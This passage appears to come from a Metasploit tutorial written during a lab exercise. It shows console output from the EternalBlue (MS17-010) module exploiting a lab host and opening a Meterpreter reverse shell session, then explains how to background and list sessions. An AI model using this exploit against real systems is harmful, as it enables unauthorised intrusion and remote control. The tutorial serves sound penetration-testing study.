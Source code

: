 [+] 10.10.12.229:445 - Sending SMBv2 buffers
[+] 10.10.12.229:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.12.229:445 - Sending final SMBv2 buffers.
[*] 10.10.12.229:445 - Sending last fragment of exploit packet!
[*] 10.10.12.229:445 - Receiving response from exploit packet
[+] 10.10.12.229:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.12.229:445 - Sending egg to corrupted connection.
[*] 10.10.12.229:445 - Triggering free of corrupted buffer.
[*] Sending stage (201283 bytes) to 10.10.12.229
[*] Meterpreter session 2 opened (10.10.44.70:4444 -> 10.10.12.229:49186) at 2021-08-20 02:06:48 +0100
[+] 10.10.12.229:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.12.229:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.12.229:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Session 2 created in the background.
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```
This will return you the context prompt from which you have run the exploit.

Some modules support the check option. This will check if the target system is vulnerable without exploiting it.

#### Sessions
Once a vulnerability has been successfully exploited, a session will be created. This is the communication channel established between the target system and Metasploit.



You can use the ```background``` command to background the session prompt and go back to the ```msfconsole``` prompt.



#### Backgrounding sessions
```
meterpreter > background
```
```
[*] Backgrounding session 2...
msf6 exploit(windows/smb/ms17_010_eternalblue) > 
```

Alternatively, ```CTRL+Z ```can be used to ```background sessions.```

The sessions command can be used from the msfconsole prompt or any context to see the existing sessions.

#### Listing active sessions
```
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions
```
```
Active sessions
===============
